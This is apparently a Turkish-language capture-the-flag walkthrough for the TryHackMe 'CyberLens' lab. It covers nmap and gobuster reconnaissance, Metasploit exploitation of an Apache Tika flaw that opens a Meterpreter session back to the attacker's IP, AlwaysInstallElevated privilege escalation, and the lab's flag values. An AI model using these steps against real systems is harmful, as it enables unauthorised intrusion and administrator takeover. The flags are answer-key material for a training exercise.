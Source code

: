 # CyberLens CTF

## 1.Adım Ping Taraması
```bash
ping Machine_IP
```
## 2.Adım Nmap Taraması
```bash
nmap --top-port 100 -sV Machine_IP
```
Nmap Sonucu:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 15:44 EDT
Nmap scan report for 10.10.147.226
Host is up (0.062s latency).
Not shown: 96 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## 3.Adım  SMB Protokolü İçin Script Taraması 
```bash
nmap --script="smb-vuln-*" Machine_IP
```
```bash
Çıktısı: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 15:46 EDT
Nmap scan report for cyberlens.thm (Machine_IP)
Host is up (0.061s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
```
## 4. Adım Hosts Dosyasını Güncelleme
/etc/hosts dosyasına makineyi ekledim.
```bash
sudo echo '10.10.147.226 cyberlens.thm' >> /etc/hosts
```
## 5. Adım Dizin Taraması
```bash
gobuster dir -u http://Machine_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Sonuç:
```bash
/images               (Status: 301) [Size: 236] [--> http://10.10.147.226/images/]
/Images               (Status: 301) [Size: 236] [--> http://10.10.147.226/Images/]
/css                  (Status: 301) [Size: 233] [--> http://10.10.147.226/css/]                                                                           
/js                   (Status: 301) [Size: 232] [--> http://10.10.147.226/js/]                                                                            
/IMAGES               (Status: 301) [Size: 236] [--> http://10.10.147.226/IMAGES/]                                                                        
```
## 6.Adım Apache Tika Exploit'i Kullanarak Sistem Erişimi
Dizinlerin birinde Apache Tika'nın versiyonunu belirledikten sonra, msfconsole kullanarak zaafiyeti bulup exploit ettim.
Exploiti Arama: 
```bash
msf6> search apache tika
```
Exploit Ayarları:
```bash
msf6>use 0
msf6 exploit(windows/http/apache_tika_jp2_jscript)>set LHOST <your tun0 IP>
set RHOST Machine_IP
set RPORT 61777
run
```
## 7. Adım Sisteme Erişim
Meterpreter geldi, shell alarak sisteme girdim ve user flag'ini yakaladım.
```bash
C:\Users\CyberLens\Desktop>type user.txt
THM{T1k4-CV3-f0r-7h3-w1n}
```
## 8. Adım Privilege Escalation (Root)
local_exploit_suggester modülü ile root olmak için uygun exploit'leri inceledim ve always_install_elevated exploit'ini kullandım.
```bash
msf6 exploit(windows/http/apache_tika_jp2_jscript) > search local_exploit_suggester
msf6 exploit(exploit(windows/http/apache_tika_jp2_jscript)) > use 0
msf6 post(multi/recon/local_exploit_suggester) > set session Session_ID
msf6 post(multi/recon/local_exploit_suggester) > run
```
```bash
msf6 post(multi/recon/local_exploit_suggester) > use windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > options
msf6 exploit(windows/local/always_install_elevated) > set session Sessıon_ID 
msf6 exploit(windows/local/always_install_elevated) > run
```
Sonuç:
```bash
meterpreter > shell
cd \Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type admin.txt
THM{3lev@t3D-4-pr1v35c!}
```
